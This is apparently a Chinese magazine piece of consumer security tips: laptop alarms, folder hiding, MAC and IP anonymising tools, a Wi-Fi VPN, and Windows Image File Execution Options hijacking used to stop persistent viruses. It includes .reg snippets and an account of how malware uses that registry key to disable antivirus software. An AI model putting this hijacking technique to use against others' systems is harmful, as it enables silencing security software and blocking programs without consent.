

在NCrypt XL主窗口（如图6）中点击“Options”按钮，在设置窗口中的“Encryption Algorithm”列表中选择合适的加密算法，在“Text Encryption Format”列表中选择文本加密格式。其余的设置保持默认，点击OK按钮保存配置。在NCrypt XL主窗口中的“Excel File”栏右侧点击浏览按钮，选择目标Excel文档，在“Operation”栏中选择“Encrypt”项，表示执行加密操作，点击“Scramble”按钮，在加密设置窗口的“Password”栏中输入密码；在“Columns”面板中勾选“Encrypt All Cells”项，表示对Excel文档中的所有单元进行彻底加密。点击OK按钮完成加密操作。当执行解密操作时，在NCrypt XL主窗口选择加密的Excel文档，选择“Decrypt”项，点击“Restore”按钮，输入密码后即可得到真实的Excel文档了。



### 六、为本本装个“隐形警报器”

为了防止笔记本电脑丢失，最好的方法是为其安装报警软件，这样当窃贼试图盗走您的爱机时，即可自动发出声音报警，来及时引起您的警觉。使用Notebak Alarm这款强悍的安全软件，可以对本本进行全面保护。在使用Notebak Alarm保护本本之前，您必须为Windows设置密码，同时打开本本前盖，连上本本电源线。Notebak Alarm安装后不仅将自身注册为“Mobile SafePatrol”服务，而且会将主程序添加到启动项。这样，可以保证Notebak Alarm跟随系统自动运行。当初次运行Notebak Alarm后，点击“Ctrl+Shift+V”键，在注册窗口中输入您的Email地址，点击“Activate”按钮，完成注册操作。

再次点击“Ctrl+Shift+V”键，进入Notebak Alarm设置界面。在其中的“Alarm1”面板（如图7）中勾选“Laptop lid is closing”项，表示当本本前盖被合上后，可以触发报警动作。

登录系统或者对本本进行解锁时，如果在预设的次数内（默认为2次）连续输入错误的密码，Notebak Alarm可以立即发出报警声。勾选“Enable alarm when USB device is connected or disconnected”项，表示当Notebak Alarm进入警戒状态后，如果有人插上或者拔下USB设备（例如优盘等），Notebak Alarm即可发出报警信号。



图8



图9

勾选“Power cord is unplugged”项，表示当有人拔下本本电源线时，同样触发Notebak Alarm报警动作。勾选“Lock computer when laptop lid is closing or the power cord is unplugged-with sound”项，表示当触发以上报警动作后，Notebak Alarm可以立即锁定系统，同时会发出尖利的报警声。点击“change the alarm sound”链接，在弹出窗口点击“Change”按钮，可以选择其它的声音文件作为报警之用。也可以点击“Download from the Sound Library”链接，打开网址“http://www.notebak.com/soundlib.php”，在其中提供了大量的报警音乐可供预览和下载。如果点击“Restore sound to default”链接，表示恢复默认的报警音乐。在“Alarm 2”面板（如图8）中勾选“Enable alarm after X unsuccessful logins”项，表示当非法使用者……

如果您的本本配置有摄像头的话，可以勾选“Take a picture and save it on a hard drive after X unsuccessful log-ins”项，表示当电脑锁定后，如果有人输入错误密码的次数超过预设值（默认为2次），Notebak Alarm就会通过摄像头将其拍摄下来。点击“View webcam image”链接，可以查看拍摄的图片。这样即使您没有在本本跟前，也可以清楚看到究竟是谁动了自己的爱机。设置好以上参数后，点击“Save”按钮保存配置信息。注意，要想让Notebak Alarm发挥保护作用，必须双击系统托盘中的Notebak Alarm图标，在其主窗口中部点击红色的“OFF”按钮，使其变成绿色的“ON”按钮（如图9），才可以让Notebak Alarm进入警戒状态。之后当有人对本本有“不轨”行为（例如合上本本前盖，拔下本本电源线，在本本上插上或者拔下USB设备，以及输入错误的解锁密码等），Notebak Alarm就会立即发出报警信号引起您的注意，同时拍下非法使用者的照片。注意：如果本本使用的是Vista/Windows 7系统，最好在电源管理窗口中针对电池供电、外接电源供电两种情形，取消按下本本电源按钮、按下睡眠按钮、关闭前盖等行为的反应动作。

# 安全第一

### 七、给文件夹巧穿“隐身衣”

在隐藏文件夹时，最直接的方法就是将其设置为隐藏状态，之后激活Windows的“不显示隐藏的文件和文件夹”属性即可。上述方法实在太简单了，只能“蒙骗”初学者。使用Folder Castle这款独特的加密软件，可以通过预设热键，来掌控文件夹的隐藏状态。运行Folder Castle安装程序，在其中的“Specify the password”窗口中输入密码。当安装完成后，在资源管理器中可以看到Folder Castle工具栏；点击其中的“Preferences”按钮，输入预设密码后，在其设置窗口左侧点击“HIDDEN OBJECTS”项；在右侧窗口中显示所有隐藏的文件或者文件夹，点击“Add File(s)”或者“Add Folder”链接，可以添加需要隐藏的文件或者文件夹。也可以从资源管理器中将文件或者文件夹拖拽进来实现隐藏操作。



图10

在设置窗口左侧点击“PREFERENCES”项，在右侧窗口（如图10）中点击“Change Password”链接，可以改变其管理密码。在“Stealth Mode”栏中勾选“Active Stealth Mode”项，可以激活其隐藏运行模式，之后Folder Castle在系统中彻底隐藏起来，所有与其相关的痕迹都将消失。之后必须使用预设热键完成文件和文件夹的隐藏操作。在默认情况下，点击“Ctrl+Alt+H”键可以隐藏选定的文件和文件夹，点击“Ctrl+Alt+U”键可以恢复所有隐藏的文件和文件夹，点击“Ctrl+Alt+G”键可以打开Folder Castle设置窗口，点击“Ctrl+Alt+F”键可以快速隐藏/恢复最常用的对象。点击“Manage Hot Keys”链接，在弹出窗口中可以自定义上述热键项。在“Miscellaneous”栏中勾选“Enable hiding files on external drives”项，可以隐藏移动存储器中的文件。这样只需点击预设的热键，就可以完成文件和文件夹的隐身或者显示操作了。

## 八、为MAC地址穿上“隐身衣”

在网络环境中，网卡的MAC地址的重要性是毋庸置疑的：MAC地址是由网络设备制造商生产时写在硬件内部的，其地址一般不可更改。如果有人能够更改MAC地址，就可以盗用IP免费上网了。因此对本机的MAC地址进行保护，就显得非常重要了。使用MAC Address Anonymize这款独特的安全软件，就可以为MAC地址穿上“隐身衣”。如果本机上安装有多块网卡，可以在MAC Address Anonymize主窗口（如图11）中点击“Select Other Adapter”按钮，在弹出的窗口中显示全部网卡信息，包括其名称、连接名称、本地地址、MAC地址等信息。点击“Select”按钮，可以将选择的网卡设置为目标网卡。在MAC Address Anonymize主窗口的“Adapter Mac Address”栏显示网卡的真实MAC地址。点击“Start MAC Address Anonymize”按钮，MAC Address Anonymize即可对目标网卡的MAC地址进行“隐身”操作。当“Network Adapter Information”面板中的“Status”栏中显示“MAC address successfully anonymized”时，就表示MAC地址隐藏成功了。



图11

在“Adapter MAC Address”栏中显示伪装过的MAC地址。在“Connection Name”栏中显示网络连接的名称，在“Local IP Address”栏中显示IP地址，在“Device ID”栏中显示网卡的ID号。当MAC地址隐藏成功后，当前的网络连接可能会断开，之后重新连接网络，即可重新连接上网了。以后您可以自由冲浪，别人是无法得到您网卡的真实MAC地址的。如果勾选“Enable Advanced Mode”项，在高级设置面板中点击“Random”按钮，可以得到随机的MAC地址，点击“Change MAC Address”按钮，可以将其设置为网卡当前的MAC地址。点击“Add MAC to List”按钮，可以将随机MAC地址添加到MAC匿名列表中，这样您可以添加任意多个匿名MAC地址。以后MAC Address Anonymize可以使用其中的MAC地址来完成MAC的伪装操作。点击“Clear Saved MACs”按钮，可以清空匿名MAC地址列表。如果您希望恢复真实的MAC地址，点击“Restore Real MAC”按钮，MAC Address Anonymize即可结束MAC地址的伪装状态，在“Status”栏中显示“NOT HIDING MAC ADDRESS ON THIS ADAPTER!”，同时将网卡的MAC地址恢复为真实的地址。


图12

### 九、轻松实现“隐形”冲浪

在网上冲浪时，为了防止别人跟随自己的行踪，最好的方法就是将本机的IP地址隐藏起来。使用Invisible IP Map这款独特的软件，就可以轻松实现上述功能。其支持IE、Firefox、Chrome等各种浏览器。在Invisible IP Map主窗口（如图12）左侧点击“Map Overview”标签，在窗口右侧点击“Get IP Locations”按钮，Invisible IP Map即可开始探测可用的匿名代理服务器，并将可以使用的匿名代理服务器标识在世界地图上。其中的红色标记显示您所处的位置，绿色标记表示可用的匿名代理服务器。使用鼠标指向目标服务器，在弹出的面板中可以显示其IP、所属国家、所在的州或者省份、所在的城市、服务器类型、和您相处的距离等信息。直接点击所需的匿名代理服务器标记，即可将本机IP隐藏起来，并通过该匿名代理服务器上网了。在窗口左上角的“Your Real IP”栏中显示您的真实IP，在“Your New IP”栏中显示隐身后的IP。点击“Deactivate anonymity”链接，可以恢复您的真实IP。

### 十、为无线冲浪巧设“隐身通道”

当您使用本本无线上网时，是否考虑到其中潜伏的危险呢？实际上，无线网络信号本质上就是无线电波，因此黑客完全可以使用专用的无线电窃听设备，轻易地拦截和破译您发送和接收的网络数据。有了Private WiFi这款独特的安全软件，您就可以通过绝密的隐身通道，实现安全冲浪，再也不必为无线网络的安全性担心了。Private WiFi可以针对无线网络开辟VPN安全连接通道，让本机和远程安全服务器之间建立加密型VPN连接通道，您发送所有网络数据首先通过该加密通道传送到远程安全服务器，远程安全服务器再将其发送到其目的主机。当安全服务器接收到目标主机返回的数据时，同样通过该加密通道发送回您的电脑。即使黑客拦截到了通讯数据，也无法将其解密。在系统托盘中的Private WiFi图标右键菜单中点击“Activate”项，Private WiFi立即和远程安全服务器之间建立VPN连接通道，稍后片刻，该VPN连接通道即可建立成功，之后系统托盘中的Private WiFi图标变为绿色，您就可以安全上网冲浪了。该VPN安全连接对于您来说是透明的，您无需关心其运行情况。实际上，当该VPN加密通道建立之后，您的电脑可以得到远程安全服务器分配的虚拟IP地址，在Private WiFi右键菜单中点击“Status”项，在VPN连接状态窗口（如图13）中的“Server”栏中显示远程安全服务器名称，在“IP Address”栏中显示本机的虚拟IP，在“Encryption”栏中显示加密位数（默认为128位AES加密），在“Traffic”栏中动态显示当前加密的网络数据，在“Speed”栏中显示网络连接的速度信息。当您想中断该VPN加密通道，恢复默认网络连接时，在Private WiFi右键菜单中点击“Deactivate”项即可。



图13

# 巧用映像劫持斩杀顽固病毒

现在的病毒变得越来越狡猾，往往采用双进程守护的方式，达到对抗清理的目的。也就是说病毒同时运行两个功能相近的进程，彼此之间相互监视，当发现对方被关停后，另一个病毒进程即可自动将其激活，造成无法关停病毒进程的目的，这给病毒的清理工作带来很大的麻烦。笔者的电脑近日就遭到了此类病毒的侵袭，系统启动后运行速度明显降低，对各种操作反应迟钝。明明没有上网操作，ADSL Modem的流量指示灯却频频闪烁。但是笔者安装的某款杀毒软件对此却无动于衷。

# 安全第一

看来病毒一定是采用了最新的免杀技术。打开任务管理器，发现“server.exe”和“expl0rer.exe”两个来历不明的进程，不管关闭其中哪一个进程后，另一个进程都会自动将对方重新启动。如何简单快捷地清除此类病毒呢？笔者利用了映像劫持技术，赤手空拳不费吹灰之力，就将其轻松搞定。

### 一、清除病毒进程

在“开始”→“运行”中执行“regedit.exe”程序，在注册表编辑器中展开“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options”分支，在该主键的右键菜单上点击“新建”→“项”，之后将新建的子键改名为“server.exe”，选中该子键，在右侧窗口中建立一个字符串类型的名称为“debugger”的键值名，并将其值修改为“nofileA.exe”。按照同样方法，新建一个名为“expl0rer.exe”的子键，选中该子键，在右侧窗口中建立一个字符串类型的名称为“debugger”的键值名，并将其值修改为“nofileB.exe”。

这样，我们就创建了两个映像劫持项目，注意其中的“nofileA.exe”和“nofileB.exe”是两个根本不存在的程序。当然，您也可以将其改为其它不存在的程序名。有了这两个映像劫持项目，那么当启动“Server.exe”和“Expl0rer.exe”程序时，系统就会寻找“nofileA.exe”和“nofileB.exe”来替代上述两个病毒程序。因为“nofileA.exe”和“nofileB.exe”根本就不存在，当然就无法启动了。之后重新启动系统，系统就会提示无法运行“nofileA.exe”和“nofileB.exe”程序。这样，“Server.exe”和“Expl0rer.exe”两个病毒程序无法运行了。根据其名称，笔者在“C:\Windows\System32”文件夹中找到这两个病毒文件，之后将其删除即可。这样笔者几乎没有花费什么力气，病毒就束手就擒了。

### 二、什么是映像劫持

映像劫持其实是 Windows 内设的用来调试程序的功能，但是现在却往往被病毒恶意利用。当用户双击对应的程序后，操作系统就会给外壳程序（例如“explorer.exe”）发布相应的指令，其中包含有执行程序的路径和文件名，然后由外壳程序来执行该程序。事实上在该过程中，Windows 还会在注册表的上述路径中查询所有的映像劫持子键，如果存在和该程序名称完全相同的子键，就查询对应子键中包含的“debugger”键值名，并用其指定的程序路径来代替原始的程序，之后执行的是遭到“劫持”的虚假程序。

同系统启动项相比，映像劫持技术显得更加隐蔽。实际上，病毒就很“喜欢”使用映像劫持来隐藏自己，例如病毒可以在注册表的上述路径中创建和杀毒软件主文件名完全同名的子键（例如 NOD32 的“egui.exe”，瑞星的“rav.exe”、金山毒霸的“kav32.exe”等），然后在其中创建“debugger”键值名，并用病毒的路径取而代之，达到禁用杀毒软件和非法执...

### 三、映像劫持的用途

当然，映像劫持也并非一无是处，可以利用其来实现禁用特定程序的目的。例如可以使用记事本编辑以下内容：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\IEXPLORE.EXE]
"debugger"="nowenjian.exe"
```

将该文件保存为 lockie.reg，双击该文件就可以为 IE 建立映像劫持。当双击 IE 图标试图访问网页时，Windows 就可以弹出找不到文件的提示，因为其中的“nowenjian.exe”根本就不存在。这样别人就无法正常使用 IE 了。按照上述方法，可以将禁用的程序全部建立映像劫持，这样就可以有效地禁用对应的程序了。

此外，映像劫持存在一个重要的缺点，那就是它只能根据程序文件名来确定该程序是否被劫持，如果将被劫持的程序改名，那么映像劫持就失效了。利用该方法，可以巧妙实现阻止病毒运行的目的。例如现在有一种很流行的优盘病毒，会在每个磁盘根目录创建“Autorun.inf”和“auto.exe”文件，这样只要双击对应的盘符，就自动运行病毒文件“auto.exe”。您可以使用记事本编辑以下内容：

```reg
Windows Registry Editor Version 5.00

[HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\Auto.exe]
"debugger"="nofile.exe"
```

将该文件保存为“noautorun.reg”，双击该文件就可以为“auto.exe”创建映像劫持。当运行该病毒文件时，就会“错误地”执行根本不存在的“nofile.exe”程序，从而达到阻止该病毒运行的目的。

### 四、管理映像劫持

那么如何才能彻底清除病毒建立的映像劫持，将被禁的安全软件彻底解放出来呢？方法很简单，直接在注册表的上述路径中找到和被劫持的程序名称相同的子键，将其逐一删除即可。也可以运行 Autoruns 这款小巧的安全软件来清除映像劫持。在 Autoruns 主窗口中打开“Image Hijacks”面板（如图1），在其中列出所有被劫持的程序项目，双击对应的劫持项目即可打开注册表，并自动定位到相应的劫持项位置，之后将其删除即可。



